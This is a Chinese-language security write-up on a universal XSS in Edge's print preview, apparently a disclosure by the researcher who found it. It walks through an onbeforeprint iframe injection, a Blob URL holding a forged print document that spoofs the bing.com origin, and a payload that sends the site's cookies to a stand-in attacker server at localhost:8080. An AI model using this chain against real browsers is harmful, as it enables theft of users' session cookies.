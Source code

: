 ### Edge浏览器中的Universal XSS
在各类XSS漏洞中，uXSS可以说是一种非常特殊的类别，它和浏览器或浏览器的插件有关，和具体网站无关。这就像你在所有的网站上都有一个非常有趣的XSS（某个浏览器下）。

在这篇文章中我将讲述在Edge浏览器中发现的这个uXSS。通常来说，uXSS与iframe元素或者URL有关，我从没想过我会通过print()函数找到一个uXSS。

### 打印预览
先让我们讨论一下当Edge浏览器显示打印预览窗口时发生的事情。

我一直以为这只是一个屏幕截图再复制到画布上的技术，但实际上，你正在打印的网页会复制到一个临时位置，并重新渲染！

是的，Edge正在临时目录中创建一个文件，文件内容是我们试图打印页面的小改版本。让我们来对比一下。

原始页面：
```
<!doctype html>
<html>
<head>
    <title>Printer Button</title>
</head>
<body>
<button id="qbutt">Print!</button>
<iframe src="https://www.bing.com/?q=example"></iframe>
<script>
qbutt.onclick=e=>{
    window.print();
}
</script>
</body>
</html>
```

临时页面：
```
<!DOCTYPE HTML>
<!DOCTYPE html PUBLIC "" ""><HTML __IE_DisplayURL="http://q.leucosite.com:777/printExample.html"><HEAD><meta 
content="text/html; charset=utf-8" http-equiv=Content-Type>
<base HREF="http://q.leucosite.com:777/printExample.html">
<STYLE> HTML { font-family : "Times New Roman" } </STYLE><TITLE>Printer 
Button</TITLE></HEAD><BODY><BUTTON id="qbutt">Print!</BUTTON> <iframe src="file://C:\Users\Q\AppData\Local\Packages\microsoft.microsoftedge_8wekyb3d8bbwe\AC\#!001\Temp\3P9TBP2L.htm"></iframe> 
<script>
qbutt.on click=e=&gt;{
    window.print();
}
</script>
</BODY></HTML>
```

从以上两个页面中我们可以发现一些不同。
```
	1) Js语句会被实体编码，无法渲染。
	2) IFRAME会指向一个本地文件，该文件包含原始引用页面bing.com的源代码。
	3) HTML元素现在有一个特殊的属性__IE_DisplayURL
```

我做了一些关于第1点和第2点的测试，试图找出在编码之后仍然能生效的js语句。但事实证明，来自<script>元素中的任何语句，不管有效无效，都不会执行。

而关于第2点，我能使用CSS的@media print{}函数加上CSS选择器借助iframe的ref值提取出系统用户名。然而，这还不够好。

而这第3点正是本文最有趣的地方，这个属性一看就非常不寻常，我以前从未看过。所以我立刻查找了相关的文章，貌似Masato Kinugawa在这方面有些研究。

在学习了一段时间后，我发现打印预览内容和这个属性紧密相关，它指明了打印文档的来源（来自哪个网站）。这正好符合Edge使用file:来打开文件这一行为。你会注意到此文档（在打印预览中）的所有请求行为与原始网站完全相同。

那么，我们怎么利用这个属性呢？

#### 在打印预览中执行javascript
就像我之前说过的，任何来自script标签的js语句都会被忽略。但如果是来自其他标记呢？我尝试了所有我能想到的语句，并最终有所发现。

由于我们一直在讨论打印功能，所以很自然想到了和打印相关的事件，最后找到了onbeforeprint。利用它，我可以注入一个指向任何网站的iframe，而且Edge不会将其转换为文件。在我注入一个包含javascript:的iframe后，发现js语句成功执行。

测试语句：
```
<!doctype html>
<html>
<head>
    <title>Printer Button</title>
</head>
<body>
<button id="qbutt">Print!</button>
<div id="qcontent"></div>
<script>
qbutt.onclick=e=>{
    window.print();
}

window.onbeforeprint=function(e){
    qcontent.innerHTML=`<iframe src="javascript:if(top.location.protocol=='file:'){document.write('in print preview')}"></iframe>`;

    }
</script>
</body>
</html>
```

打印预览转换后：
```
<!DOCTYPE HTML>
<!DOCTYPE html PUBLIC "" ""><HTML __IE_DisplayURL="http://q.leucosite.com/dl.html"><HEAD><meta 
content="text/html; charset=windows-1252" http-equiv=Content-Type>
<base HREF="http://q.leucosite.com/dl.html">
<STYLE> HTML { font-family : "Times New Roman" } </STYLE><TITLE>Printer 
Button</TITLE></HEAD><BODY><BUTTON id="qbutt">Print!</BUTTON> <div 
id="qcontent"><iframe src="ja vasc ript:if(top.location.protocol=='file:'){document.write('in print preview')}"></iframe></div>
<script>
qbutt.onclick=e=&gt;{
    window.print();
}

window.onbeforeprint=function(e){
    qcontent.innerHTML=`&lt;iframe src="javascript:if(top.location.protocol=='file:'){document.write('in print preview')}"&gt;&lt;/iframe&gt;`;

    }
</script>
</BODY></HTML>
```
但是，成功执行js语句并不意味着我们完成了所有任务。如前所述，由于__IE_DisplayURL属性的存在，任何请求或API都会被视为来自于原始文档（无法攻击外部网站）。

### 真正的uXSS
在能执行js语句后，我们需要以某种方式用自定义的__IE_DisplayURL来构建我们自己的“打印预览文档”，这样我们就能对任意网站发动uXSS攻击。

很快我发现Blob URL可以做到这一点！为此，我制作了特殊的打印文档，其中的自定义属性指向我的目标网站（本例中为“bing.com”），并且它还包含一个javascript iframe，就像在“bing.com”网站中执行一样。

插入的Js语句如下：
```
if (top.location.protocol == 'file:') {
    setTimeout(function() {
        top.location = URL.createobjectURL(new Blob([top.document.getElementById('qd').value], {
            type: 'text/html'
        }))
    }, 1000)
}
```

其中top.document.getElementById('qd').value就是指如下虚假打印文档：
```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN"><HTML 
__IE_DisplayURL="https://www.bing.com/"><HEAD><meta content="text/html; 
charset=windows-1252" http-equiv=Content-Type>
<base HREF="https://www.bing.com/">
<STYLE> HTML { font-family : "Times New Roman" } </STYLE>
<STYLE>iframe {
    width: 300px; height: 300px;
}
</STYLE>
</HEAD><BODY>

<iframe id="qif" src="javascript:qa=top.document.createElement('img');qa.src='http://localhost:8080/?'+escape(btoa(top.document.cookie));top.document.body.appendChild(qa);'just sent the following data to attacker server:<br>'+top.document.cookie">
</BODY></HTML>
```

现在，我可以看到网站cookie，并且已发送到某个服务器上。

现在让我来总结一下整体利用流程:
```
	1) 利用onbeforeprint，我插入一个iframe，它能打印之前触发我的js语句。
	2) 调用window.print()进行初始化。
	3) Edge出现打印预览窗口，内容为我插入的js语句，并进行渲染。
	4) 这些js语句会创建了一个Blob URL，其中有我自定义的来自“bing.com”打印文档，并将顶部帧重定向到这个URL。
	5) 打印预览内容会误认为我的Blob URL的内容是一个合法的打印文档，并通过__IE_DisplayURL属性将文档来源设置为bing.com。
	6) 这个虚假的打印文档现在包含另一个javascript iframe，它会显示bing.com网站的cookie。
	7) uXSS成功实现！
```